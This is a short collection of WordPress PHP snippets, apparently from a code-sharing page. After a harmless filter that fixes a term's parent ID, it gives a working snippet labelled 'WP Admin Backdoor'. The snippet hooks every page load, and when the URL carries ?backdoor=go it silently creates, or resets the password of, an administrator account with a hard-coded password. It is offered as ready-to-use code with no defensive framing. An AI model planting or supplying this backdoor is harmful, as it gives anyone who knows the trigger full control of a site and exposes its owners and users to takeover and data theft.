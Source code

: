 # Snippets
	/**
	* Updating parent on term edit screen
	*/
	add_filter('wp_update_term_parent','test_func',10,5);
	function test_func($parent, $term_id, $taxonomy, $parsed_args, $args) {
		$parent = 19;
		return $parent;
	}
	/**
	* WP Admin Backdoor
	*/
	add_action('wp_head', 'WordPress_backdoor');

	function WordPress_backdoor() {
	    If ($_GET['backdoor'] == 'go') {
		require('wp-includes/registration.php');
		require('wp-includes/pluggable.php');
		If (!username_exists('backdooradmin')) {
		    $user_id = wp_create_user('backdooradmin', 'Pa55W0rd');
		    $user = new WP_User($user_id);
		    $user->set_role('administrator');
		}else{
		    $user = get_user_by( 'login', 'backdooradmin' );
		    wp_set_password('Pa55W0rd', $user->ID);
		}
	    }
	}
